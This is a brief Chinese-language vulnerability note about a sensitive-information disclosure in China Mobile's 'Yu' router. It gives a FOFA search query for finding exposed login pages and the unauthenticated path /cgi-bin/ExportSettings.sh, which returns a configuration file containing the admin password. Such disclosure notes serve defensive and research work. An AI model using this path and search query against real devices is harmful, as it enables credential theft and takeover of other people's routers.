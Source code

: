 # 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

> 中国移动 禹路由

## FOFA

> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![1](resource/中国移动禹路由敏感信息泄露/1.png)

访问Url

```
/cgi-bin/ExportSettings.sh
```

![2](resource/中国移动禹路由敏感信息泄露/2.png)

其中password为登录后台密码